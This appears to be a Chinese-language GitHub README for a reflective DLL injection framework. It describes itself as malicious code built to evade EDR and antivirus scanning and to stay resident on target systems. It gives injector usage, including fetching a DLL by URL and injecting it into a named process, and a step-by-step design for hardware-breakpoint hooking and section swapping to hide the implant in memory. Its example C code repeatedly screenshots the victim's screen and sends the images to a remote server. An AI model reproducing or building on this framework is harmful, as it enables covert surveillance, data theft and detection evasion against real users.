

# ReflectiveDLL

反射DLL是一种高级的DLL加载技术，它通过模拟Windows加载器的工作流程，实现了从内存中直接加载DLL。通过使用Native API来达到隐蔽性的目的，并直接跳转到syscall来绕过常规的API监控。通过`sleaping`函数延迟映射恶意DLL来绕过EDR的内存扫描。可以用于APT和复杂的恶意软件中，在目标系统中长期驻留。

这项技术并非一个简单的“注入工具”，而是一个高级的、旨在实现深度隐蔽和持久化驻留的恶意代码框架。它的设计目标直指现代安全检测（如EDR、AV）的盲区。


## 演示

下面是通过创建进程`cmd.exe /k chcp 65001 >nul` 实现CMD命令执行的截图。




## 使用

```
DLL Injector - Usage

SYNOPSIS:
    injector [OPTIONS]

DESCRIPTION:
    Inject DLL into target processes. Supports both local files and remote URLs.

OPTIONS:
    -h, --help           Display this help message and exit
    -u, --url URL        Specify DLL URL for remote download
    -f, --file FILE      Specify local DLL filename
    -p, --process NAME   Target process name to inject into
        --local          Enable local injection mode

EXAMPLES:
    injector --file mydll.dll --process target.exe
    injector --url http://example.com/mydll.dll --process game.exe  
    injector --file payload.dll --process app.exe

NOTES:
    - Either --file or --url must be specified
    --process is required to identify the target application
    --local enables special local injection mode
```


## 介绍

[详细介绍](https://ccoskrnl.github.io/notes/Computer_Security/software/reflective_dll/main.html)

**注入器**

[Rust实现的反射DLL注入器](https://github.com/ccoskrnl/rfdll-injector-in-rust)

该项目提供了两个简单的注入器DEMO（C++实现和C#实现）

注入器下载反射DLL到内存中，手动解析DLL找到反射加载函数的RAW。向目标进程中写入反射DLL，并创建远程线程执行反射加载函数。

**反射DLL**

注入器会创建一个线程执行预加载函数，预加载函数会通过`RIP`寄存器确定模块基地址，预加载函数执行反射函数。最后创建新的线程执行`DllMain`函数。

反射函数通过对`ZwClose` ，`NtMapViewOfSection` 和 `NtCreateSection` 函数的入口打上硬件断点，并注册一个向量化异常处理例程，当触发单步异常时（如硬件断点），该异常处理例程就会被执行。异常处理例程通过调用这些API的`detour function` 对传入的参数进行修改。反射函数使用`LoadLibraryEx`加载牺牲的DLL(`SRH.dll`)，由于`LoadLibraryEx`会调用我们之前设置断点的几个API函数，所以当这些函数被`LoadLibraryEx`函数调用时，我们的异常处理例程就可以捕获这些单步异常，并调用对应的`detour function`去修改参数。`LoadLibraryEx`会对加载的DLL创建一个`Section`对象，并在最后通过`ZwClose`函数关闭这个对象。我们使用`ZwCloseDetour`函数来跳过该函数，保留该对象。当`LoadLibraryEx`函数执行完毕，我们移除该向量化异常处理例程，并取消这些硬件断点，最后`find_SRH_DLL_section_handle`函数获得`SRH.dll`的`Section`对象的句柄。

反射函数也通过`RIP`寄存器获取当前模块的DLL头部，并使用`mem_to_free`变量记录该地址（由于我们之前通过`VirtualAllocEx`函数申请了这块内存，后续我们需要释放这块内存避免内存泄漏）。

反射函数创建一个新的`Section`对象，其大小稍大于`SRH.dll`的大小（因为我们需要额外记录某些信息）。紧接着，它会取消映射由`LoadLibraryEx`函数映射的`SRH.dll`的视图，记录该模块的基地址，并在该基地址处重新映射我们刚刚创建的`Section`对象的视图（用于反射DLL，我们简称mal_dll）。我们记录牺牲的DLL(SRH.dll)的Section句柄，刚刚创建的Section句柄，以及新创建的Section大小和mem_to_free，将这些信息放在基地址头部。紧接着拷贝反射DLL的信息到刚刚新建的Section中。

接下来，我们需要将注入器在远程进程中申请的用于存储反射DLL文件的内存空间拷贝到刚刚新创建的内存视图当中去，并且进行PE文件的加载（手动修复IAT，进行重定位，注册异常函数表等），最后一步，我们创建一个新的线程，用于执行CRT初始化，并跳到DllMain函数中。

反射DLL的内存驻留方案核心是通过**内存地址重用**技术，实现在同一内存地址无缝替换DLL，同时保持执行连续性。这是一种高级的进程内存操作技术。在`sleaping`函数中实现。

**sleaping**

```c
int sleaping(
    PVOID image_base,
    HANDLE sac_dll_handle,
    HANDLE mal_dll_handle,
    SIZE_T view_size,
    PNT_FUNCTIONS nt_func_s,
    PVOID NtTestAlert_addr
);
```

`image_base` 是当前模块的基地址，同时也是sac_dll的基地址（由LoadLibraryEx("SRH.dll", ... )函数加载确定。`sac_dll_handle` 是`SRH.dll`的Section句柄，而`mal_dll_handle` 是我们后续通过`NtCreateSection`函数新创建的Section句柄（对应于反射DLL本身）。我们需要保证当前进程中所有线程都没有引用`image_base -> image_base + view_size` 这块内存。我们的思路也很简单，将当前执行`sleaping`的线程挂起，并新创建几个线程进行`UnMapViewOfFile(image_base)`，并调用`MapViewOfFileEx(sac_dll -> image_base)` 进行重映射即可。下面展示了`sleaping`函数的时序分析结果：

```
Main thread
    |
    +-- Initialization phase (0-several ms)
    |    +-- Create event object
    |    +-- Allocate CONTEXT memory
    |    +-- Create thread 2 (suspended state)
    |
    +-- Configure thread 2
    |    +-- Get thread context
    |    +-- Modify to WaitForSingleObjectEx(NtTestAlert returns)
    |    +-- Resume thread 2 execution
    |
    +-- Create other threads
    |    +-- CreateThread0 (suspended): UnmapViewOfFile
    |    +-- CreateThread1 (suspended): MapViewOfFileEx(sac_dll)
    |    +-- CreateThread3 (suspended): MapViewOfFileEx(mal_dll)
    |
    +-- Configure thread context
    |    +-- Thread 0: UnmapViewOfFile(image_base)
    |    +-- Thread 1: MapViewOfFileEx(sac_dll->image_base)
    |    +-- Thread 3: MapViewOfFileEx(mal_dll->image_base)
    |
    +-- Create timer queue
    |
    +-- Set APC queue (thread 2)
    |    +-- APC1: UnmapViewOfFile(image_base)
    |    +-- APC2: ResumeThread (Thread 3)
    |    +-- APC3: ExitThread (thread 2 itself)
    |
    +-- Set timer
    |    +-- Timer 1 (200ms): ResumeThread (Thread 0)
    |    +-- Timer 2 (300ms): ResumeThread (Thread 1)
    |
    +-- Wait for all threads to complete
```

## 扩展

一个简单的示例: 屏幕截图

当DLL被注入到进程之后，DLL会尝试去连接远程服务器，开始进入无限循环。它会捕获当前的屏幕截图，然后发送给远程服务器。接着DLL会被替换成正常的DLL并进入睡眠状态。当DLL被计时器唤醒之后又会重复这一流程。

```c
SOCKET socket = connect_to_server(&global_functions.ws_funcs, &global_functions.krnl_funcs);

do
{
	char* filename = create_temp_filename("screenshot", &global_functions.krnl_funcs);
	my_strncat(filename, ".bmp", 4);

	
	status = capture_screenshot_win32(filename, &global_functions.krnl_funcs, &global_functions.user32_funcs, &global_functions.gdi32_funcs);

	status = send_file_over_socket(socket, filename, &global_functions.ws_funcs, &global_functions.krnl_funcs);

	if (status != 0)
	{
		// reconnect
	}

	cleanup_temp_file(filename, &global_functions.krnl_funcs);

	if (sleaping(sac_dll_base, sac_dll_handle, mal_dll_handle, sac_dll_size, &nt_funcs) == -1)
	{
		return FALSE;
	}

} while (true);

```

**注意事项**

当使用注入器将DLL注入到其他进程时，只有DLL预先被导入的函数才可以直接调用，这些函数可以通过解析DLL的导入表查看。如果要调用其他DLL的函数，比如`ws2_32.dll`的网络通信函数，必须通过`LoadLibrary`和`GetProcAddress`手动获取需要使用的函数地址，然后再调用。可以使用以下方法：

```c++
typedef int (WINAPI* WSASTARTUP_FN)(WORD, LPWSADATA);
typedef SOCKET(WINAPI* SOCKET_FN)(int, int, int);
typedef int (WINAPI* CONNECT_FN)(SOCKET, const struct sockaddr*, int);
typedef int (WINAPI* SEND_FN)(SOCKET, const char*, int, int);
typedef int (WINAPI* RECV_FN)(SOCKET, char*, int, int);
typedef int (WINAPI* CLOSESOCKET_FN)(SOCKET);
typedef int (WINAPI* WSACLEANUP_FN)(void);
typedef int (WINAPI* BIND_FN)(SOCKET, const struct sockaddr*, int);
typedef int (WINAPI* LISTEN_FN)(SOCKET, int);
typedef SOCKET(WINAPI* ACCEPT_FN)(SOCKET, struct sockaddr*, int*);
typedef u_short(WINAPI* HTONS_FN)(u_short);
typedef unsigned long (WINAPI* INET_ADDR_FN)(const char*);
typedef char* (WINAPI* INET_NTOA_FN)(struct in_addr);
typedef int (WINAPI* INET_PTON_FN)(int, const char*, void*);

typedef struct _winsock_functions
{

	WSASTARTUP_FN WSAStartup = NULL;
	SOCKET_FN Socket = NULL;
	CONNECT_FN Connect = NULL;
	SEND_FN Send = NULL;
	RECV_FN Recv = NULL;
	CLOSESOCKET_FN CloseSocket = NULL;
	WSACLEANUP_FN WSACleanup = NULL;
	BIND_FN Bind = NULL;
	LISTEN_FN Listen = NULL;
	ACCEPT_FN Accept = NULL;
	HTONS_FN Htons = NULL;
	INET_ADDR_FN Inet_addr = NULL;
	INET_NTOA_FN Inet_ntoa = NULL;
	INET_PTON_FN Inet_pton = NULL;

} winsock_functions_t;

	
bool load_winsock_functions(winsock_functions_t* ws_funcs)
{
	HMODULE winsock_dll = NULL;
	winsock_dll = LoadLibraryA("ws2_32.dll");
	if (winsock_dll == NULL)
	{
		return false;
	}

	ws_funcs->WSAStartup = (WSASTARTUP_FN)GetProcAddress(winsock_dll, "WSAStartup");
	ws_funcs->Socket = (SOCKET_FN)GetProcAddress(winsock_dll, "socket");
	ws_funcs->Connect = (CONNECT_FN)GetProcAddress(winsock_dll, "connect");
	ws_funcs->Send = (SEND_FN)GetProcAddress(winsock_dll, "send");
	ws_funcs->Recv = (RECV_FN)GetProcAddress(winsock_dll, "recv");
	ws_funcs->CloseSocket = (CLOSESOCKET_FN)GetProcAddress(winsock_dll, "closesocket");
	ws_funcs->WSACleanup = (WSACLEANUP_FN)GetProcAddress(winsock_dll, "WSACleanup");
	ws_funcs->Bind = (BIND_FN)GetProcAddress(winsock_dll, "bind");
	ws_funcs->Listen = (LISTEN_FN)GetProcAddress(winsock_dll, "listen");
	ws_funcs->Accept = (ACCEPT_FN)GetProcAddress(winsock_dll, "accept");
	ws_funcs->Htons = (HTONS_FN)GetProcAddress(winsock_dll, "htons");
	ws_funcs->Inet_addr = (INET_ADDR_FN)GetProcAddress(winsock_dll, "inet_addr");
	ws_funcs->Inet_ntoa = (INET_NTOA_FN)GetProcAddress(winsock_dll, "inet_ntoa");
	ws_funcs->Inet_pton = (INET_PTON_FN)GetProcAddress(winsock_dll, "inet_pton");


	uint64_t* funcs_start = (uint64_t*)ws_funcs;
	int num = sizeof(*ws_funcs) / sizeof(void*);
	for (int i = 0; i < num; i++, funcs_start++)
	{
		if (*funcs_start == NULL)
		{
			FreeLibrary(winsock_dll);
			return false;
		}
	}

	return true;
}

```


## 参考

* [oldboy21/RflDllOb: Reflective DLL Injection Made Bella](https://github.com/oldboy21/RflDllOb)

* [YOLO: You Only Load Once](https://oldboy21.github.io/posts/2024/01/yolo-you-only-load-once/)
* [Reflective DLL Got Indirect Syscall skills](https://oldboy21.github.io/posts/2024/02/reflective-dll-got-indirect-syscall-skills/) 
* [SWAPPALA: Why Change When You Can Hide?](https://oldboy21.github.io/posts/2024/05/swappala-why-change-when-you-can-hide/) 
* [SLE(A)PING Issues: SWAPPALA and Reflective DLL Friends Forever](https://oldboy21.github.io/posts/2024/06/sleaping-issues-swappala-and-reflective-dll-friends-forever/) 
* [Timer Callbacks Spoofing to Improve your SLEAP and SWAPPALA Untold](https://oldboy21.github.io/posts/2024/09/timer-callbacks-spoofing-to-improve-your-sleap-and-swappala-untold/)

